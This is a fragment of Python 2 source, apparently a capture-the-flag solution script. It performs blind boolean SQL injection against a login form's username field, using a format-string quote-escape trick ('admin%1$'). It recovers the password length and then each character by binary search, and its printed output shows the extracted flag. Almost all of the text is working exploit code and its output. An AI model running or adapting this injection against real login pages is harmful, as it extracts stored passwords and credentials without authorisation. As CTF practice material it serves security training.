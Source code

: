 ```python
    while True:
        payload = {"username":"admin%1$' and length((select pw from users limit 0,1)) ={}#".format(i), "password":"123"}
        r = requests.post(url, payload)
        if basehtml in r.text:
            print '[+] get flag_len: %s'%(str(i))
            break
        else:
            print '[*] present flag_len: %s'%(str(i))
            i += 1
#flag_len()
'''
[+] get flag_len: 32
'''

def flag():
    name = ''
    for i in range(1,33):
        '''
        for ch in string.printable:
            payload = {"username":"admin%1$' and ascii(substr((select pw from users),{},1))={}#".format(i,ord(ch)), "password":"123"}
            r = requests.post(url, payload)
            if basehtml in r.text:
                name += ch
                print '[+] present columns_name: %s'%(name)
                break
        '''
        # 一个个爆破有点慢，换个二分的
        down = 33
        up = 128
        while True:
            ch = (down+up) / 2
            payload = {"username":"admin%1$' and ascii(substr((select pw from users),{},1))>{}#".format(i,ch), "password":"123"}
            #print down,up
            r = requests.post(url, payload)
            if basehtml in r.text:
                down = ch
            else:
                up = ch
            if down == up-1:
                name += chr(up)
                print '[+] present columns_name: %s'%(name)
                break
        
flag()
'''
[+] present columns_name: kap0k{y0u_2_@_Bri1lian+_E5cap3r}
'''
```
